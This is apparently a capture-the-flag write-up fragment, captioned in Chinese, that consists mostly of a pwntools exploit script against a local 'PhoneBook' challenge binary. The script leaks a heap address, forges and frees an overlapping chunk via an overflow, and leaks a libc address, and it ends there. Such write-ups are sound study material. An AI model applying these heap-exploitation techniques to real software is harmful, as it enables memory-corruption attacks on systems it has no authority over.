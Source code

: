 直接看exp吧

```python
from pwn import*
context.log_level = 'debug'

#io = remote('localhost', 41355)
io = process('./PhoneBook')
elf = ELF('./PhoneBook')
libc = elf.libc

def DEBUG():
    attach(io)
    pause()

def menu(choice):
    io.recvuntil(b'Your Choice: \n')
    io.sendline(str(choice).encode())

def add(name, num):
    menu(1)
    io.recvuntil(b'Name?\n')
    io.send(name)
    io.recvuntil(b'Phone Number?\n')
    io.send(num)

def dele(index):
    menu(2)
    io.recvuntil(b'Index?\n')
    io.sendline(str(index).encode())

def show():
    menu(3)

def edit(index, name, num):
    menu(4)
    io.recvuntil(b'Index?\n')
    io.sendline(str(index).encode())
    io.recvuntil(b'Name?\n')
    io.send(name)
    io.recvuntil(b'Phone Number?\n')
    io.send(num)

#泄露堆地址
add(b'A', b'0')     # 1
add(b'A', b'1'*8)   # 2
add(b'A', b'0')     # 3
show()

io.recvuntil(b'1'*8)
heapbase = u64(io.recv(6).ljust(8, b'\x00'))-0x330
log.success('heapbase ===> '+hex(heapbase))

#构造出大堆块，利用溢出指向伪造堆块并释放
for i in range(30):
    add(b'A', b'0')     # 4 - 0x33
edit(4, p64(0x4a1)+p64(4), b'0')
edit(3, b'A', b'0'*8+b'\x70')
dele(4)

#指向伪造堆块，泄露得到libc地址
edit(2, b'A', b'0'*8+b'\x68')
show()

```